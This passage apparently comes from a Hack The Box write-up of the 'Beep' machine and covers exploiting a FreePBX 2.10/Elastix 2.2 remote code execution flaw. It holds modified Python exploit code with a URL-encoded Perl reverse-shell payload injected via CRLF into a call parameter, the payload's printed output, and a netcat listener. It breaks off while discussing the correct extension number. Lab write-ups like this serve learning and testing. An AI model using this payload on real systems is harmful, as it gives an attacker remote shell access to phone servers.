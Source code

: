 ## FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution (#2)

PoC already fixed from SSL errors: [18650-fixed.py](https://gist.githubusercontent.com/thel3l/a78c08272781130317d0bc73d1881d28/raw/4b5694a7486f827072662e4a3555625d43d3689c/18650-fixed.py)

Fixed the exploit setting the right parameters and added a print function:

```python
...
rhost="10.10.10.7"
lhost="10.10.14.24"
lport=5505
extension="1000"
...
url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'
print url
urllib2.urlopen(url, context=ctx)
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ python 18650-fixed.py 
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.24%3a5505%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

┌──(kali㉿kali)-[~/…/HTB/box/Beep/exploit]
└─$ nc -nlvp 5505        
listening on [any] 5505 ...
```

Exploit did not work, investigating the server response it told that a different extension parameter was necessary:

![Pasted image 20210427181739.png](../../zzz_res/attachments/Pasted_image_20210427181739.png)

While the full explanation can be found here ([https://hakin9.org/voip-hacking-techniques/](https://hakin9.org/voip-hacking-techniques/)) after some enumeration it appears that the right number was 233:
